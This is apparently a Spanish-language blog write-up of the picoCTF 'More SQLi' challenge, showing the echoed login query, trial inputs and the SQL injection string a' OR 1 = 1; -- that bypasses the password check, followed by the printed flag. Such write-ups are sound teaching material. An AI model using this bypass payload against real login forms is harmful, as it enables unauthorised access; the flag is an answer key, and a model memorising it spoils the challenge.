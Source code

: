 ```yaml
---
title: More SQLi
date: 2025-05-14 13:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, more sqli, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>More SQLi
Author: Mubarak Mikail
Description
Can you find the flag on this website. Try to find the flag here.
{: .prompt-tip }

Como este ejercicio va de injecciones SQL empezamos con el típico '1 = 1' para ver el resultado. 

``` html
username: admin
password: 1 = 1
SQL query: SELECT id FROM users WHERE password = '1 = 1' AND username = 'admin'
```

Viendo esto, creo que podemos intentar injectar con un OR, añadiendo "--" para comentar el resto de la query, etc.
Luego podemos ver como queda la query e ir retocandola.

``` 
SELECT id FROM users WHERE password = 'pass OR 1 = 1' AND username = 'admin'
pass OR 1 = 1 --'

Finalmente compruebo que esta funciona.
a' OR 1 = 1; --

``` html
username: test
password: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}
SQL query: SELECT id FROM users WHERE password = 'picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}' AND username = 'test'
```

flag: **picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}**

Una de SQLi. 
